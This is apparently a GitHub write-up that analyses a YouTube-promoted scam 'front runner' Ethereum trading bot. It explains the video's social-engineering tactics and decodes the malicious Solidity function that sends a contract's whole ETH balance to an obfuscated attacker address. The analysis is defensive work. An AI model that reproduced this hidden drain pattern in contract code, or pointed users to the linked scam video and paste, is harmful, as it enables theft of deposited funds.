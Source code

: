 ## Malicious Solidity Decoded
I was recently informed of a "front runner scam" involving a YouTube video promoting an Ethereum trading bot that claimed to utilize MEV (Maximal Extractible Value) techniques. This incident highlights the necessity for thorough examination and auditing of smart contracts tied to trading bots, especially those advertised on platforms such as YouTube.

Marketed as utilizing advanced strategies, including transaction reordering by submitting transactions with higher gas fees for prioritized processing, and leveraging ChatGPT API keys to identify profitable transactions within the Ethereum mempool, the bot was ostensibly designed to maximize trading efficiency. However, its actual operation diverted users' Ethereum deposits directly to a scammer’s address through complex and hidden logic. This case highlights the essential need for thorough scrutiny and validation of smart contracts behind such trading bots, to prevent falling victim to sophisticated scams that exploit the complexity and novelty of blockchain technologies.


#### Scam video on YouTube (WARNING)
[How to make 2,700 with ChatGPT Slippage Strategy](https://m.youtube.com/watch?v=IkOUdbPeIxo&ab_channel=Cytra%7Cweb-3)

- Video is prefaced by a statement like "There are many scams out there in the crypto space". 

Beginning a video with a warning about the prevalence of scams in the cryptocurrency space is a classic social engineering tactic designed to lower the audience's guard. This approach plays on the psychological principle of inoculation, where mentioning a potential threat or concern upfront can create a sense of trust and credibility. 

#### Scam solidity code (WARNING)
[Trading Bot Code](https://binarypastes.com/raw/CJRejc)

- The provided smartcontract code is not peer-reviewd on GitHub. 

Providing smart contract code on platforms like Ghostbin, Pastebin and binarypastes.com, rather than on peer-reviewed repositories such as GitHub or GitLab, raises immediate red flags regarding the legitimacy of the code.

- Initial comment encourages user to not try first on testnet. 

```
// Testnet transactions will fail because they have no value in them
```

Using a testnet like Goerli allows users to safely observe and interact with a contract's functionality on-chain without risking real assets, providing a valuable opportunity for learning and verification. Contrary to claims that testnet transactions fail due to lack of value, they are crucial for understanding contract behavior in a risk-free environment.


#### Decoding the attack
The malicious activity in the contract is primarily executed through the StartNative function, which indirectly triggers the startArbitrageNative function. The critical lines that facilitate the theft of ETH are within the startArbitrageNative function:

```
function startArbitrageNative() internal  {
    address tradeRouter = getDexRouter(DexRouter, factory);        
    address dataProvider = getDexRouter(apiKey, DexRouter);         
    IERC20(dataProvider).createStart(msg.sender, tradeRouter, address(0), address(this).balance);
    payable(tradeRouter).transfer(address(this).balance);
}
```

Here's what happens, summarized:

1. Calculating Addresses: The function calculates two addresses (tradeRouter and dataProvider) using the getDexRouter function with inputs from hardcoded bytes32 values (DexRouter, factory, and apiKey). These addresses are derived from obfuscated values, making it difficult to understand their true nature without knowing the exact mechanism of getDexRouter.

2. Misleading Function Call: It then calls the createStart function on the dataProvider interface. This interface and function are not standard in ERC20 or Uniswap V2 protocols, making it suspicious. The purpose of this call, as described, is unclear and likely non-existent, serving only as a distraction.

3. Transferring ETH: Finally, the function transfers the contract's entire ETH balance to the tradeRouter address with payable(tradeRouter).transfer(address(this).balance);. This is the actual line where the theft occurs. Instead of performing any legitimate trading operation, it simply sends all the ETH stored in the contract to an address that was calculated using obfuscated logic.

In summary, the contract pretends to initiate an arbitrage trading operation through the StartNative function but ultimately redirects the user's deposited ETH to a concealed address controlled by the attacker. This is achieved by a combination of obfuscated address calculations and a deceptive transfer of funds, with the real intent hidden behind complex and seemingly legitimate trading functions.

#### Read more about front runner scams on [medium](https://medium.com/remix-ide/remix-in-youtube-crypto-scams-71c338da32d). 

> "Over the last year, but currently at critical mass, thousands of YouTube videos have been offering viewers instructions on how to set up a “front runner bot” to make money by sniping liquidity pools of BNB in PancakeSwap. It’s a scam. Don’t fall for it."